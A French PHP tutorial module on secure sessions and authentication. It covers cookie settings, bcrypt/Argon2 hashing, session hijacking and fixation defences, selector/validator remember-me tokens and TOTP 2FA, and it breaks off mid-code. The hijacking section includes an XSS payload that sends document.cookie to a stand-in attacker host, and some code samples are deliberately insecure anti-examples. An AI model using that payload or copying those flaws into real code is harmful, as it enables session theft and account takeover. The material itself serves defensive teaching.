

# VI - Sessions & Auth'

<div
  class="omny-meta"
  data-level="🔴 Critique"
  data-version="1.0"
  data-time="8-10 heures">
</div>

## Introduction : L'Identité Numérique, un Trésor à Protéger

!!! quote "Analogie pédagogique"
    _Imaginez un **hôtel de luxe**. Quand vous arrivez (inscription), on vous donne une **carte-clé magnétique** (session). Cette carte ouvre votre chambre (votre espace personnel) mais pas les autres. Le **réceptionniste** (serveur) vérifie votre identité à l'arrivée (authentification) en comparant votre visage avec la photo sur votre passeport (mot de passe haché). Une fois identifié, vous gardez votre carte dans votre poche (cookie de session), et chaque fois que vous entrez dans l'hôtel, les agents vous reconnaissent immédiatement sans redemander votre passeport (session active). Si vous perdez votre carte (vol de cookie), l'hôtel peut **l'invalider instantanément** (destruction session). Un hacker qui essaie de **forger une carte** (session hijacking) sera bloqué car les **cartes sont cryptées** avec un code unique. Ce module vous apprend à être le **directeur de la sécurité** de cet hôtel numérique._

**Sessions & Authentification** = Gérer l'identité et l'accès utilisateurs de manière sécurisée.

**Statistiques alarmantes (2024) :**

⚠️ **81%** des violations de données impliquent mots de passe faibles ou volés
⚠️ **23 millions** de comptes utilisent toujours "123456" comme mot de passe
⚠️ **Session hijacking** = 2ème vecteur d'attaque après phishing
⚠️ **Credential stuffing** = 30 milliards d'attaques automatisées en 2023
⚠️ **2FA** réduit compromissions de **99.9%** mais seulement 28% l'utilisent

**Conséquences vol de session :**

💔 Usurpation d'identité complète
💔 Accès à toutes données personnelles
💔 Actions malveillantes au nom de la victime
💔 Vol financier (e-commerce, banque)

**Ce module vous apprend à construire un système d'authentification INVIOLABLE.**

---

## 1. Sessions PHP : Comprendre les Bases

### 1.1 Qu'est-ce qu'une Session ?

**Session = Mécanisme pour conserver données utilisateur entre requêtes HTTP**

**Problème HTTP = Protocole STATELESS (sans état) :**

```php
<?php
// Requête 1 : Login
$_POST['username'] = 'alice';
$_POST['password'] = 'secret123';
// Utilisateur connecté ✅

// Requête 2 : Page suivante
// ❌ Serveur ne se souvient pas de la connexion !
// HTTP ne garde aucune information entre requêtes
```

**Solution = SESSIONS :**

```mermaid
sequenceDiagram
    participant Client
    participant Serveur
    participant FichierSession
    
    Client->>Serveur: 1. Login (username/password)
    Serveur->>Serveur: 2. Vérifier identifiants
    Serveur->>FichierSession: 3. Créer session<br/>ID: abc123<br/>user_id: 42
    Serveur->>Client: 4. Envoie cookie<br/>PHPSESSID=abc123
    
    Note over Client: Cookie stocké<br/>dans navigateur
    
    Client->>Serveur: 5. Requête suivante<br/>(cookie automatique)
    Serveur->>FichierSession: 6. Lit session abc123
    FichierSession->>Serveur: 7. Données session<br/>user_id: 42
    Serveur->>Client: 8. Page personnalisée<br/>Bonjour Alice !
    
    style FichierSession fill:#e1f5e1
```

### 1.2 Démarrer et Utiliser Sessions

```php
<?php
declare(strict_types=1);

// ⚠️ session_start() DOIT être appelé AVANT tout output (HTML, echo)
session_start();

// Stocker données en session
$_SESSION['user_id'] = 42;
$_SESSION['username'] = 'alice';
$_SESSION['role'] = 'admin';

// Lire données session
echo "Bonjour " . $_SESSION['username']; // Bonjour alice

// Vérifier existence
if (isset($_SESSION['user_id'])) {
    echo "Utilisateur connecté : ID " . $_SESSION['user_id'];
} else {
    echo "Visiteur non connecté";
}

// Modifier données
$_SESSION['derniere_activite'] = time();

// Supprimer une variable
unset($_SESSION['username']);

// Détruire toute la session (logout)
session_destroy();
```

**Où sont stockées les sessions ?**

```php
<?php
// Par défaut : fichiers dans /tmp
echo session_save_path(); // /tmp (Linux) ou C:\Windows\Temp (Windows)

// Fichier session : sess_[ID]
// Exemple : /tmp/sess_abc123def456ghi789

// Contenu fichier (format serialize) :
/*
user_id|i:42;username|s:5:"alice";role|s:5:"admin";
*/

// Configuration personnalisée
session_save_path(__DIR__ . '/sessions');
```

### 1.3 Configuration Sécurisée Sessions

```php
<?php
declare(strict_types=1);

// ✅ Configuration AVANT session_start()
session_set_cookie_params([
    'lifetime' => 0,           // Session (fermeture navigateur)
    'path' => '/',             // Tout le site
    'domain' => '',            // Domaine actuel
    'secure' => true,          // HTTPS uniquement ⚠️ CRITIQUE
    'httponly' => true,        // Pas accessible JavaScript ⚠️ CRITIQUE
    'samesite' => 'Strict'     // Protection CSRF ⚠️ CRITIQUE
]);

// Ou via php.ini / .htaccess
/*
session.cookie_lifetime = 0
session.cookie_secure = 1
session.cookie_httponly = 1
session.cookie_samesite = Strict
session.use_strict_mode = 1
session.sid_length = 48
session.sid_bits_per_character = 6
*/

session_start();
```

**Explication paramètres critiques :**

| Paramètre | Valeur recommandée | Protection |
|-----------|-------------------|------------|
| **secure** | `true` | Cookie transmis uniquement via HTTPS (pas HTTP) |
| **httponly** | `true` | Cookie inaccessible JavaScript → Prévient XSS vol de session |
| **samesite** | `Strict` ou `Lax` | Cookie non envoyé cross-site → Prévient CSRF |
| **lifetime** | `0` ou `3600` | 0 = session navigateur, 3600 = 1 heure |
| **use_strict_mode** | `1` | Refuse ID session non initialisé par serveur |
| **sid_length** | `48` | Longueur ID (+ long = + sécurisé) |

---

## 2. Authentification Sécurisée

### 2.1 Password Hashing avec password_hash()

**❌ ERREUR FATALE : Stocker mots de passe en clair**

```php
<?php
// ❌ NE JAMAIS FAIRE - CATASTROPHIQUE
$username = $_POST['username'];
$password = $_POST['password'];

$pdo->prepare("INSERT INTO users (username, password) VALUES (?, ?)")
    ->execute([$username, $password]);

/*
Problèmes :
1. Si BDD compromise → TOUS les mots de passe exposés
2. Attaquant voit mots de passe en clair
3. Utilisateurs réutilisent mots de passe → autres comptes compromis
4. Responsabilité juridique (RGPD, lois protection données)

Exemple réel : Yahoo (2013) - 3 milliards de comptes, mots de passe non hachés
*/
```

**❌ ERREUR GRAVE : MD5 ou SHA1**

```php
<?php
// ❌ NE JAMAIS FAIRE - OBSOLÈTE ET CASSÉ
$password = $_POST['password'];
$hash = md5($password); // ❌ MD5 cassé depuis 2004
$hash = sha1($password); // ❌ SHA1 cassé depuis 2005

/*
Problèmes :
1. Algorithmes trop rapides → Brute force facile
2. Rainbow tables disponibles en ligne
3. Collisions connues

Vitesse crackage (GPU moderne) :
- MD5 : 200 milliards hash/seconde
- SHA1 : 100 milliards hash/seconde
→ Mot de passe 8 caractères cracké en < 1 heure
*/
```

**✅ SOLUTION : password_hash() avec BCRYPT ou ARGON2**

```php
<?php
declare(strict_types=1);

// ✅ Inscription : Hasher mot de passe
$password = $_POST['password'];

// Bcrypt (défaut, recommandé)
$hash = password_hash($password, PASSWORD_BCRYPT, ['cost' => 12]);

// Argon2 (plus sécurisé, PHP 7.2+)
$hash = password_hash($password, PASSWORD_ARGON2ID, [
    'memory_cost' => 65536,  // 64 MB
    'time_cost' => 4,        // 4 itérations
    'threads' => 2           // 2 threads
]);

// Exemple hash Bcrypt (60 caractères)
// $2y$12$QjSH496pcT5CEbzjD/vtVeH03tfHKFy36d4J0Ltp3lRtee9HDxY3K

// Stocker en BDD
$stmt = $pdo->prepare("INSERT INTO users (username, password_hash) VALUES (?, ?)");
$stmt->execute([$username, $hash]);

/*
Avantages :
1. Salt automatique (aléatoire, unique par utilisateur)
2. Lent par conception (ajustable avec 'cost')
3. Résistant brute force (GPU inefficace)
4. Standard industrie
*/
```

**Anatomie d'un hash Bcrypt :**

```
$2y$12$QjSH496pcT5CEbzjD/vtVeH03tfHKFy36d4J0Ltp3lRtee9HDxY3K
│  │  │                      │
│  │  │                      └─ Hash (31 chars)
│  │  └─ Salt (22 chars)
│  └─ Cost (2^12 = 4096 itérations)
└─ Algorithme (2y = Bcrypt)
```

### 2.2 Vérification Mot de Passe

```php
<?php
declare(strict_types=1);

// ✅ Login : Vérifier mot de passe
$username = $_POST['username'];
$password = $_POST['password'];

// Récupérer hash depuis BDD
$stmt = $pdo->prepare("SELECT id, username, password_hash, role FROM users WHERE username = ?");
$stmt->execute([$username]);
$user = $stmt->fetch();

// Utilisateur existe ?
if (!$user) {
    // ⚠️ Message générique (ne pas révéler si user existe)
    die("Identifiants incorrects");
}

// Vérifier mot de passe
if (password_verify($password, $user['password_hash'])) {
    // ✅ Mot de passe correct
    
    // Vérifier si besoin re-hasher (cost augmenté)
    if (password_needs_rehash($user['password_hash'], PASSWORD_BCRYPT, ['cost' => 12])) {
        $newHash = password_hash($password, PASSWORD_BCRYPT, ['cost' => 12]);
        $pdo->prepare("UPDATE users SET password_hash = ? WHERE id = ?")
            ->execute([$newHash, $user['id']]);
    }
    
    // Créer session
    session_regenerate_id(true); // ⚠️ Régénérer ID (sécurité)
    $_SESSION['user_id'] = $user['id'];
    $_SESSION['username'] = $user['username'];
    $_SESSION['role'] = $user['role'];
    $_SESSION['login_time'] = time();
    
    // Rediriger vers dashboard
    header('Location: dashboard.php');
    exit;
    
} else {
    // ❌ Mot de passe incorrect
    die("Identifiants incorrects");
}
```

**Diagramme : Processus Login**



### 2.3 Système Complet Inscription/Connexion

```php
<?php
declare(strict_types=1);

/**
 * Classe Authentification complète
 */
class Auth {
    private PDO $pdo;
    
    public function __construct(PDO $pdo) {
        $this->pdo = $pdo;
        
        // Configuration session sécurisée
        if (session_status() === PHP_SESSION_NONE) {
            session_set_cookie_params([
                'lifetime' => 0,
                'path' => '/',
                'secure' => true,
                'httponly' => true,
                'samesite' => 'Strict'
            ]);
            session_start();
        }
    }
    
    /**
     * Inscription utilisateur
     */
    public function register(string $username, string $email, string $password): array {
        // Validation
        $erreurs = [];
        
        if (strlen($username) < 3 || strlen($username) > 30) {
            $erreurs[] = "Username doit faire entre 3 et 30 caractères";
        }
        
        if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            $erreurs[] = "Email invalide";
        }
        
        if (strlen($password) < 8) {
            $erreurs[] = "Mot de passe doit faire minimum 8 caractères";
        }
        
        // Vérifier force mot de passe
        if (!$this->estMotDePasseFort($password)) {
            $erreurs[] = "Mot de passe trop faible (besoin majuscule, minuscule, chiffre, spécial)";
        }
        
        // Vérifier username/email disponibles
        $stmt = $this->pdo->prepare("SELECT id FROM users WHERE username = ? OR email = ?");
        $stmt->execute([$username, $email]);
        
        if ($stmt->fetch()) {
            $erreurs[] = "Username ou email déjà utilisé";
        }
        
        if (!empty($erreurs)) {
            return ['succes' => false, 'erreurs' => $erreurs];
        }
        
        // Hasher mot de passe
        $hash = password_hash($password, PASSWORD_BCRYPT, ['cost' => 12]);
        
        // Insérer utilisateur
        $stmt = $this->pdo->prepare("
            INSERT INTO users (username, email, password_hash, created_at) 
            VALUES (?, ?, ?, NOW())
        ");
        
        $stmt->execute([$username, $email, $hash]);
        
        return ['succes' => true, 'user_id' => (int)$this->pdo->lastInsertId()];
    }
    
    /**
     * Connexion utilisateur
     */
    public function login(string $username, string $password): array {
        // Récupérer utilisateur
        $stmt = $this->pdo->prepare("
            SELECT id, username, email, password_hash, role, active 
            FROM users 
            WHERE username = ? OR email = ?
        ");
        
        $stmt->execute([$username, $username]); // username OU email
        $user = $stmt->fetch();
        
        // Utilisateur n'existe pas
        if (!$user) {
            // Attendre pour éviter timing attacks
            usleep(random_int(100000, 300000)); // 0.1-0.3 sec
            return ['succes' => false, 'erreur' => 'Identifiants incorrects'];
        }
        
        // Compte désactivé
        if (!$user['active']) {
            return ['succes' => false, 'erreur' => 'Compte désactivé'];
        }
        
        // Vérifier mot de passe
        if (!password_verify($password, $user['password_hash'])) {
            // Log tentative échouée
            $this->logTentativeEchouee($username);
            
            return ['succes' => false, 'erreur' => 'Identifiants incorrects'];
        }
        
        // Re-hasher si nécessaire
        if (password_needs_rehash($user['password_hash'], PASSWORD_BCRYPT, ['cost' => 12])) {
            $newHash = password_hash($password, PASSWORD_BCRYPT, ['cost' => 12]);
            $this->pdo->prepare("UPDATE users SET password_hash = ? WHERE id = ?")
                ->execute([$newHash, $user['id']]);
        }
        
        // Régénérer ID session (prévenir fixation)
        session_regenerate_id(true);
        
        // Créer session
        $_SESSION['user_id'] = $user['id'];
        $_SESSION['username'] = $user['username'];
        $_SESSION['email'] = $user['email'];
        $_SESSION['role'] = $user['role'];
        $_SESSION['login_time'] = time();
        $_SESSION['last_activity'] = time();
        $_SESSION['ip'] = $_SERVER['REMOTE_ADDR'];
        $_SESSION['user_agent'] = $_SERVER['HTTP_USER_AGENT'];
        
        // Log connexion réussie
        $this->logConnexion($user['id']);
        
        return ['succes' => true, 'user' => $user];
    }
    
    /**
     * Déconnexion
     */
    public function logout(): void {
        // Log déconnexion
        if (isset($_SESSION['user_id'])) {
            $this->logDeconnexion($_SESSION['user_id']);
        }
        
        // Détruire toutes variables session
        $_SESSION = [];
        
        // Supprimer cookie session
        if (isset($_COOKIE[session_name()])) {
            setcookie(
                session_name(),
                '',
                time() - 3600,
                '/',
                '',
                true,
                true
            );
        }
        
        // Détruire session
        session_destroy();
    }
    
    /**
     * Vérifier si utilisateur connecté
     */
    public function estConnecte(): bool {
        return isset($_SESSION['user_id']);
    }
    
    /**
     * Obtenir ID utilisateur connecté
     */
    public function getUserId(): ?int {
        return $_SESSION['user_id'] ?? null;
    }
    
    /**
     * Vérifier rôle
     */
    public function aRole(string $role): bool {
        return isset($_SESSION['role']) && $_SESSION['role'] === $role;
    }
    
    /**
     * Vérifier force mot de passe
     */
    private function estMotDePasseFort(string $password): bool {
        // Au moins 1 majuscule, 1 minuscule, 1 chiffre, 1 spécial
        $patterns = [
            '/[A-Z]/',       // Majuscule
            '/[a-z]/',       // Minuscule
            '/[0-9]/',       // Chiffre
            '/[^A-Za-z0-9]/' // Spécial
        ];
        
        foreach ($patterns as $pattern) {
            if (!preg_match($pattern, $password)) {
                return false;
            }
        }
        
        return true;
    }
    
    /**
     * Log tentative connexion échouée
     */
    private function logTentativeEchouee(string $username): void {
        $stmt = $this->pdo->prepare("
            INSERT INTO login_attempts (username, ip, user_agent, created_at) 
            VALUES (?, ?, ?, NOW())
        ");
        
        $stmt->execute([
            $username,
            $_SERVER['REMOTE_ADDR'],
            $_SERVER['HTTP_USER_AGENT']
        ]);
    }
    
    /**
     * Log connexion réussie
     */
    private function logConnexion(int $userId): void {
        $stmt = $this->pdo->prepare("
            INSERT INTO login_logs (user_id, ip, user_agent, created_at) 
            VALUES (?, ?, ?, NOW())
        ");
        
        $stmt->execute([
            $userId,
            $_SERVER['REMOTE_ADDR'],
            $_SERVER['HTTP_USER_AGENT']
        ]);
    }
    
    /**
     * Log déconnexion
     */
    private function logDeconnexion(int $userId): void {
        $stmt = $this->pdo->prepare("
            UPDATE login_logs 
            SET logout_at = NOW() 
            WHERE user_id = ? 
            AND logout_at IS NULL 
            ORDER BY created_at DESC 
            LIMIT 1
        ");
        
        $stmt->execute([$userId]);
    }
}

// Usage
$auth = new Auth($pdo);

// Inscription
$resultat = $auth->register('alice', 'alice@example.com', 'SuperSecure123!');

// Connexion
$resultat = $auth->login('alice', 'SuperSecure123!');

// Vérifier si connecté
if ($auth->estConnecte()) {
    echo "Utilisateur connecté : " . $_SESSION['username'];
}

// Déconnexion
$auth->logout();
```

---

## 3. Protection Session Hijacking

### 3.1 Comprendre Session Hijacking

**Session Hijacking = Vol d'ID de session pour usurper identité**

**Vecteurs d'attaque :**

1. **XSS (Cross-Site Scripting)** : Vol cookie via JavaScript
2. **Sniffing réseau** : Interception trafic HTTP non chiffré
3. **Prédiction ID** : Deviner ID session (si faible entropie)
4. **Fixation** : Forcer victime à utiliser ID connu

**Scénario attaque XSS :**

```php
<?php
// Site vulnérable XSS
$nom = $_GET['nom'];
echo "Bonjour $nom"; // ❌ Pas échappé

// Attaquant envoie :
// ?nom=<script>fetch('https://attaquant.com/steal?cookie='+document.cookie)</script>

// Cookie session envoyé à attaquant
// Attaquant peut maintenant :
// 1. Injecter cookie dans son navigateur
// 2. Accéder au compte victime
// 3. Agir comme victime
```

### 3.2 Protections Anti-Hijacking

**Protection #1 : HttpOnly Cookie (empêche JavaScript)**

```php
<?php
// ✅ Cookie inaccessible JavaScript
session_set_cookie_params([
    'httponly' => true, // ⚠️ CRITIQUE
    // ...
]);

session_start();

// Tentative vol via JavaScript :
/*
<script>
console.log(document.cookie); // "" (vide, cookie HttpOnly invisible)
</script>
*/
```

**Protection #2 : HTTPS Obligatoire (empêche sniffing)**

```php
<?php
// ✅ Cookie transmis uniquement via HTTPS
session_set_cookie_params([
    'secure' => true, // ⚠️ CRITIQUE
    // ...
]);

// Rediriger HTTP → HTTPS
if (empty($_SERVER['HTTPS']) || $_SERVER['HTTPS'] === 'off') {
    header('Location: https://' . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI']);
    exit;
}

session_start();
```

**Protection #3 : Validation IP et User-Agent**

```php
<?php
session_start();

// Lors du login
if ($loginSuccess) {
    $_SESSION['ip'] = $_SERVER['REMOTE_ADDR'];
    $_SESSION['user_agent'] = $_SERVER['HTTP_USER_AGENT'];
}

// À chaque requête
function verifierSession(): bool {
    if (!isset($_SESSION['user_id'])) {
        return false;
    }
    
    // Vérifier IP
    if (!isset($_SESSION['ip']) || $_SESSION['ip'] !== $_SERVER['REMOTE_ADDR']) {
        session_destroy();
        return false;
    }
    
    // Vérifier User-Agent
    if (!isset($_SESSION['user_agent']) || $_SESSION['user_agent'] !== $_SERVER['HTTP_USER_AGENT']) {
        session_destroy();
        return false;
    }
    
    return true;
}

// ⚠️ LIMITATION : Réseaux avec IP dynamique (mobile, VPN)
// Solution : Vérifier seulement premiers octets IP ou ne pas vérifier IP
```

**Protection #4 : Timeout Inactivité**

```php
<?php
session_start();

// Timeout : 30 minutes d'inactivité
$timeout = 1800; // 30 minutes

if (isset($_SESSION['last_activity'])) {
    $inactif = time() - $_SESSION['last_activity'];
    
    if ($inactif > $timeout) {
        // Session expirée
        session_destroy();
        header('Location: login.php?timeout=1');
        exit;
    }
}

// Mettre à jour dernière activité
$_SESSION['last_activity'] = time();
```

**Protection #5 : Régénération Périodique ID**

```php
<?php
session_start();

// Régénérer ID toutes les 15 minutes
$regenInterval = 900; // 15 minutes

if (!isset($_SESSION['last_regeneration'])) {
    $_SESSION['last_regeneration'] = time();
}

if (time() - $_SESSION['last_regeneration'] > $regenInterval) {
    session_regenerate_id(true);
    $_SESSION['last_regeneration'] = time();
}
```

### 3.3 Session Fixation

**Session Fixation = Attaquant force victime à utiliser ID session connu**

**Scénario attaque :**

```php
<?php
// 1. Attaquant obtient ID session valide
// https://site.com/?PHPSESSID=abc123

// 2. Attaquant envoie lien piégé à victime
// https://site.com/login.php?PHPSESSID=abc123

// 3. Victime se connecte avec cet ID
// 4. Session abc123 maintenant associée au compte victime
// 5. Attaquant utilise abc123 pour accéder compte victime
```

**Prévention :**

```php
<?php
// ✅ Régénérer ID lors du login
if ($loginSuccess) {
    session_regenerate_id(true); // ⚠️ CRITIQUE
    
    $_SESSION['user_id'] = $user['id'];
    // ...
}

// ✅ use_strict_mode : Refuser ID non initialisé par serveur
ini_set('session.use_strict_mode', '1');

// ✅ Refuser ID dans URL (seulement cookie)
ini_set('session.use_only_cookies', '1');
ini_set('session.use_trans_sid', '0');
```

---

## 4. Remember Me Sécurisé

### 4.1 Danger Remember Me Naïf

```php
<?php
// ❌ ULTRA DANGEREUX - NE JAMAIS FAIRE
if (isset($_POST['remember'])) {
    // Stocker identifiants en cookie ❌❌❌
    setcookie('user_id', $user['id'], time() + 30*24*3600);
    setcookie('username', $user['username'], time() + 30*24*3600);
}

// Reconnexion automatique ❌❌❌
if (isset($_COOKIE['user_id'])) {
    $_SESSION['user_id'] = $_COOKIE['user_id'];
}

/*
Problèmes CATASTROPHIQUES :
1. ID utilisateur prévisible et modifiable
2. Attaquant peut changer cookie pour se connecter comme n'importe qui
3. Pas de validation, pas de sécurité
4. Vol de cookie = accès permanent

→ JAMAIS stocker ID user directement en cookie !
*/
```

### 4.2 Remember Me avec Tokens Sécurisés

**Architecture sécurisée :**

```sql
-- Table remember_tokens
CREATE TABLE remember_tokens (
    id INT PRIMARY KEY AUTO_INCREMENT,
    user_id INT NOT NULL,
    selector VARCHAR(64) NOT NULL UNIQUE,
    token_hash VARCHAR(255) NOT NULL,
    expires_at DATETIME NOT NULL,
    created_at DATETIME DEFAULT CURRENT_TIMESTAMP,
    FOREIGN KEY (user_id) REFERENCES users(id) ON DELETE CASCADE,
    INDEX (selector),
    INDEX (expires_at)
);
```

**Implémentation :**

```php
<?php
declare(strict_types=1);

class RememberMe {
    private PDO $pdo;
    private const TOKEN_LENGTH = 32;
    private const VALIDITY_DAYS = 30;
    
    public function __construct(PDO $pdo) {
        $this->pdo = $pdo;
    }
    
    /**
     * Créer token remember me
     */
    public function creer(int $userId): void {
        // Générer selector (identifiant token en BDD)
        $selector = bin2hex(random_bytes(self::TOKEN_LENGTH / 2));
        
        // Générer validator (token secret)
        $validator = bin2hex(random_bytes(self::TOKEN_LENGTH / 2));
        
        // Hasher validator avant stockage
        $tokenHash = hash('sha256', $validator);
        
        // Expiration
        $expiresAt = date('Y-m-d H:i:s', time() + self::VALIDITY_DAYS * 24 * 3600);
        
        // Stocker en BDD
        $stmt = $this->pdo->prepare("
            INSERT INTO remember_tokens (user_id, selector, token_hash, expires_at) 
            VALUES (?, ?, ?, ?)
        ");
        
        $stmt->execute([$userId, $selector, $tokenHash, $expiresAt]);
        
        // Envoyer cookie au client
        // Format : selector:validator
        $cookieValue = $selector . ':' . $validator;
        
        setcookie(
            'remember_token',
            $cookieValue,
            time() + self::VALIDITY_DAYS * 24 * 3600,
            '/',
            '',
            true,  // Secure (HTTPS)
            true   // HttpOnly
        );
    }
    
    /**
     * Vérifier et activer remember me
     */
    public function verifier(): ?int {
        // Cookie existe ?
        if (!isset($_COOKIE['remember_token'])) {
            return null;
        }
        
        // Parser cookie
        $parts = explode(':', $_COOKIE['remember_token']);
        
        if (count($parts) !== 2) {
            $this->supprimer();
            return null;
        }
        
        [$selector, $validator] = $parts;
        
        // Chercher token en BDD
        $stmt = $this->pdo->prepare("
            SELECT user_id, token_hash, expires_at 
            FROM remember_tokens 
            WHERE selector = ?
        ");
        
        $stmt->execute([$selector]);
        $token = $stmt->fetch();
        
        // Token n'existe pas
        if (!$token) {
            $this->supprimer();
            return null;
        }
        
        // Token expiré
        if (strtotime($token['expires_at']) < time()) {
            $this->supprimerToken($selector);
            $this->supprimer();
            return null;
        }
        
        // Vérifier validator (timing-safe)
        $tokenHash = hash('sha256', $validator);
        
        if (!hash_equals($token['token_hash'], $tokenHash)) {
            // ⚠️ Token invalide = potentielle attaque
            // Supprimer TOUS les tokens de cet utilisateur
            $this->supprimerTousTokens($token['user_id']);
            $this->supprimer();
            return null;
        }
        
        // ✅ Token valide
        // Régénérer nouveau token (one-time use)
        $this->supprimerToken($selector);
        $this->creer($token['user_id']);
        
        return $token['user_id'];
    }
    
    /**
     * Supprimer cookie client
     */
    public function supprimer(): void {
        setcookie(
            'remember_token',
            '',
            time() - 3600,
            '/',
            '',
            true,
            true
        );
    }
    
    /**
     * Supprimer token spécifique en BDD
     */
    private function supprimerToken(string $selector): void {
        $stmt = $this->pdo->prepare("DELETE FROM remember_tokens WHERE selector = ?");
        $stmt->execute([$selector]);
    }
    
    /**
     * Supprimer tous tokens utilisateur
     */
    private function supprimerTousTokens(int $userId): void {
        $stmt = $this->pdo->prepare("DELETE FROM remember_tokens WHERE user_id = ?");
        $stmt->execute([$userId]);
    }
}

// Usage au login
if (isset($_POST['remember'])) {
    $remember = new RememberMe($pdo);
    $remember->creer($user['id']);
}

// Vérification automatique sur chaque page
session_start();

if (!isset($_SESSION['user_id'])) {
    $remember = new RememberMe($pdo);
    $userId = $remember->verifier();
    
    if ($userId !== null) {
        // Reconnecter automatiquement
        $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
        $stmt->execute([$userId]);
        $user = $stmt->fetch();
        
        if ($user) {
            session_regenerate_id(true);
            $_SESSION['user_id'] = $user['id'];
            $_SESSION['username'] = $user['username'];
            $_SESSION['role'] = $user['role'];
        }
    }
}
```

**Diagramme : Remember Me Sécurisé**

```mermaid
sequenceDiagram
    participant User
    participant Browser
    participant Server
    participant Database
    
    User->>Browser: Login + Remember Me
    Browser->>Server: POST credentials
    Server->>Server: Vérifier mot de passe
    Server->>Server: Générer selector<br/>+ validator
    Server->>Database: Stocker selector<br/>+ hash(validator)
    Server->>Browser: Cookie<br/>selector:validator
    
    Note over Browser: 30 jours plus tard
    
    Browser->>Server: GET page<br/>(cookie automatique)
    Server->>Database: Chercher selector
    Database->>Server: token_hash
    Server->>Server: Vérifier<br/>hash(validator)
    Server->>Server: ✅ Valide<br/>Régénérer nouveau token
    Server->>Browser: Session créée<br/>+ Nouveau cookie
    
    style Server fill:#e1f5e1
```

**Pourquoi c'est sécurisé :**

✅ **Selector** = Identifiant public (non secret, trouve token en BDD)
✅ **Validator** = Secret (comme mot de passe, haché en BDD)
✅ Token invalidé après usage (one-time use)
✅ Si validator volé, attaquant ne peut pas le régénérer
✅ Timing-safe comparison (hash_equals)

---

## 5. Two-Factor Authentication (2FA)

### 5.1 Principe 2FA

**2FA = Authentification à 2 facteurs**

**3 catégories de facteurs :**

1. **Quelque chose que vous SAVEZ** : Mot de passe, PIN
2. **Quelque chose que vous AVEZ** : Téléphone, token hardware
3. **Quelque chose que vous ÊTES** : Empreinte, visage

**2FA = Combiner 2 facteurs différents**

**Exemple courant :**
- Facteur 1 : Mot de passe (SAVEZ)
- Facteur 2 : Code SMS ou app (AVEZ)

### 5.2 TOTP (Time-based One-Time Password)

**TOTP = Code 6 chiffres changent toutes les 30 secondes**

**Installation bibliothèque :**

```bash
composer require sonata-project/google-authenticator
```

**Implémentation :**

```php
<?php
declare(strict_types=1);

use Sonata\GoogleAuthenticator\GoogleAuthenticator;
use Sonata\GoogleAuthenticator\GoogleQrUrl;

class TwoFactorAuth {
    private PDO $pdo;
    private GoogleAuthenticator $ga;
    
    public function __construct(PDO $pdo) {
        $this->pdo = $pdo;
        $this->ga = new GoogleAuthenticator();
    }
    
    /**
     * Activer 2FA pour utilisateur
     */
    public function activer(int $userId): array {
        // Générer secret unique
        $secret = $this->ga->generateSecret();
        
        // Récupérer utilisateur
        $stmt = $this->pdo->prepare("SELECT username, email FROM users WHERE id = ?");
        $stmt->execute([$userId]);
        $user = $stmt->fetch();
        
        // Générer QR code URL
        $qrCodeUrl = GoogleQrUrl::generate(
            $user['username'],
            $secret,
            'MonApplication'
        );
        
        // Stocker secret en BDD (temporaire jusqu'à confirmation)
        $stmt = $this->pdo->prepare("
            UPDATE users 
            SET two_factor_secret_temp = ? 
            WHERE id = ?
        ");
        
        $stmt->execute([$secret, $userId]);
        
        return [
            'secret' => $secret,
            'qr_code_url' => $qrCodeUrl
        ];
    }
    
    /**
     * Confirmer activation 2FA avec code
     */
    public function confirmer(int $userId, string $code): bool {
        // Récupérer secret temporaire
        $stmt = $this->pdo->prepare("
            SELECT two_factor_secret_temp 
            FROM users 
            WHERE id = ?
        ");
        
        $stmt->execute([$userId]);
        $user = $stmt->fetch();
        
        if (!$user || !$user['two_factor_secret_temp']) {
            return false;
        }
        
        // Vérifier code
        if (!$this->ga->checkCode($user['two_factor_secret_temp'], $code)) {
            return false;
        }
        
        // Activer définitivement
        $stmt = $this->pdo->prepare("
            UPDATE users 
            SET two_factor_secret = two_factor_secret_temp,
                two_factor_secret_temp = NULL,
                two_factor_enabled = 1
            WHERE id = ?
        ");
        
        $stmt->execute([$userId]);
        
        return true;
    }
    
    /**
     * Vérifier code 2FA au login
     */
    public function verifier(int $userId, string $code): bool {
        // Récupérer secret
        $stmt = $this->pdo->prepare("
            SELECT two_factor_secret 
            FROM users 
            WHERE id = ? AND two_factor_enabled = 1
        ");
        
        $stmt->execute([$userId]);
        $user = $stmt->fetch();
        
        if (!$user || !$user['two_factor_secret']) {
            return false;
        }
        
        // Vérifier code (avec window = 1 pour tolérer décalage horloge)
        return $this->ga->checkCode($user['two_factor_secret'], $code, 1);
    }
    
    /**
     * Désactiver 2FA
     */
    public function desactiver(int $userId, string $password, string $code): bool {
        // Vérifier mot de passe (sécurité supplémentaire)
        $stmt = $this->pdo->prepare("
            SELECT password_hash, two_factor_secret 
            FROM users 
            WHERE id = ?
        ");
        
        $stmt->execute([$userId]);
        $user = $stmt->fetch();
        
        if (!$user) {
            return false;
        }
        
        // Vérifier mot de passe
        if (!password_verify($password, $user['password_hash'])) {
            return false;
        }
        
        // Vérifier code 2FA
        if (!$this->ga->checkCode($user['two_factor_secret'], $code)) {
            return false;
        }
        
        // Désactiver
        $stmt = $this->pdo->prepare("
            UPDATE users 
            SET two_factor_enabled = 0,
                two_factor_secret = NULL
